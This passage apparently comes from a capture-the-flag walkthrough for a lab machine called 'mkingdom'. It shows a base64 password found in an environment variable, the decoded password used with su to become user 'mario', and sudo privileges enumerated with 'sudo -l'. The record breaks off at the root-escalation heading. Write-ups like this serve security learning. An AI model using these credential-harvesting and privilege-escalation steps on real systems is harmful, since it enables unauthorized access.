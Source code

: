 ```
```

### User Mario

```
╔══════════╣ Environment
╚ Any private information inside environment variables?
LESSOPEN=| /usr/bin/lesspipe %s
MAIL=/var/mail/toad
USER=toad
RPORT=1337
SHLVL=3
HOME=/home/toad
OLDPWD=/home/toad
PWD_token=aWthVGVOVEFOdEVTCg==

```

from base64
```
ikaTeNTANtES
```

trying as password for mario

```
su mario
ikaTeNTANtES
```

it works

```
mario@mkingdom:/home/toad$ whoami
whoami
mario
```

### Root

checking for sudo privs

```
mario@mkingdom:/home/toad$ sudo -l
sudo -l
[sudo] password for mario: ikaTeNTANtES
            
Matching Defaults entries for mario on mkingdom:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    pwfeedback

User mario may run the following commands on mkingdom:
    (ALL) /usr/bin/id
```
